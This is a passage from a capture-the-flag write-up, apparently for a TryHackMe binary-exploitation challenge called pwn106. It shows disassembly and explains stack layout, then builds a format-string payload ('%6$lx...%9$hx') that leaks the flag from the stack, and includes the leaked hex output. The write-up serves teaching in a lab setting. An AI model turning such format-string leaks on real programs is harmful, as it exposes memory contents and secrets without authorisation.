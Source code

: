 Also note that the *flag* starts at the top of the stack:

```text
┌ 217: int main (int argc, char **argv, char **envp);
│ afv: vars(7:sp[0x10..0x68])
│ 0x0000123e      55             push rbp
│ 0x0000123f      4889e5         mov rbp, rsp
│ 0x00001242      4883ec60       sub rsp, 0x60
...

flag:                            var_60h @ rbp-0x60

```

So, the idea would be to go beyond the 6 registers and read from the top of the stack the **26 bytes** of the flag.

So, the *payload* will be of the following form:

- `%lx`: 8 bytes
- `%lx`: 8 bytes
- `%lx`: 8 bytes
- `%hx`: 2 bytes

And using the indices we get:

- `%6$lx`
- `%7$lx`
- `%8$lx`
- `%9$hx`

## Local Exploitation

The *payload* is defined:

```bash
$ echo '%6$lx.%7$lx.%8$lx.%9$hx' > payload
```

The exploit is run locally.

```bash
$ ./pwn106 < payload 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 107          

🎉 THM Giveaway 🎉

Enter your THM username to participate in the giveaway: 
Thanks 5b5858587b4d4854.6465725f67616c66.58585d6465746361.7d58
���
```

The *CyberChef* tool is used to decode the value returned by the program, taking into account the *endianess* (view [Binary Information](#binary-information)).
